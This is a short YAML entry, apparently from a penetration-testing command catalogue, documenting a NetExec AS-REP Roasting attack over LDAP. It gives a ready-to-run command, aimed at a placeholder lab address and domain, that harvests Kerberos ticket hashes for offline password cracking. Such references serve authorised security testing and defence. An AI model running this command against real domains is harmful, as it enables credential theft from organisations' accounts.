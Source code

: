```yaml
---
description: |
  NetExec (formerly CrackMapExec) performs an AS-REP Roasting attack via the LDAP service.
  This command attempts to enumerate domain accounts that do not require pre-authentication 
  and requests Kerberos AS-REP responses for them. The extracted encrypted ticket-granting 
  ticket (TGT) hashes are saved into the specified file and can later be cracked offline 
  to recover plaintext credentials.

  Command Reference:

  	Target IP: 10.10.10.1
  	Domain: test.local
  	Username List: users.txt
  	Password: (empty string)
  	Output File: output.txt

command: |
  nxc ldap 10.10.10.1 -u users.txt -p '' --asreproast output.txt
items:
  - Username
  - Hash
services:
  - LDAP
OS:
  - Linux
  - Windows
attack_types:
  - Credential Access
  - AS-REP Roasting
references:
  - https://github.com/Pennyw0rth/NetExec
  - https://attack.mitre.org/techniques/T1558/004/
---
```

